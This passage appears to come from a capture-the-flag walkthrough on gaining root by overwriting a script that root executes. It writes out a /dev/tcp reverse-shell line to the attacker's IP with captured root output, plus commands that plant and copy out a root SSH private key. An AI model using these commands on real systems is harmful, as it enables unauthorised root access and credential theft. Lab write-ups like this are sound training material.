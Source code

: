 Its taking quite long, we probably cant crack the hash of jack, as it may not be an intended way to solve this machine.

### Checking if root has an id_rsa
Lets try to get the id_rsa of root now.

First, we can try to see what are the contents inside /root/.ssh (And if it exists):

```shell
echo '#!/bin/bash' > id.sh
echo 'ls -al /root > check_root.txt' >> id.sh
echo 'ls -al /root/.ssh > check_ssh.txt' >> id.sh
```

Now we can check the files:

```shell
cat check_root.txt
cat check_ssh.txt
```

### Getting a reverse shell as root manipulating id.sh script
We can also try to get a reverse shell starting a nc listener and entering the following command inside the id.sh script

```shell
# Start nc listener
nc -lvnp 8443

# Run the following commands to enter reverse shell inside the id.sh bash script
echo '#!/bin/bash' > id.sh
echo '/bin/sh -i >& /dev/tcp/10.11.113.193/8443 0>&1' >> id.sh
```

Now wait for root to run the script and we will get an answer in our nc listener:

```shell
listening on [any] 8443 ...
connect to [10.11.113.193] from (UNKNOWN) [10.10.121.49] 49002
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

### Creating id_rsa for root and getting access using SSH
Lets try to create a id_rsa key for root using the id.sh script:

```shell
echo '#!/bin/bash' > id.sh
echo 'ssh-keygen -t rsa -b 4096 -f /root/.ssh/id_rsa' >> id.sh
echo 'cat /root/.ssh/id_rsa.pub > /root/.ssh/authorized_keys ' >> id.sh
echo 'cat /root/.ssh/id_rsa > id_rsa.txt' >> id.sh
```

Note: Remember we need to move id_rsa.pub (public key) into /root/.ssh/authorized_keys. We will use the id_rsa (private key) to log in through SSH.
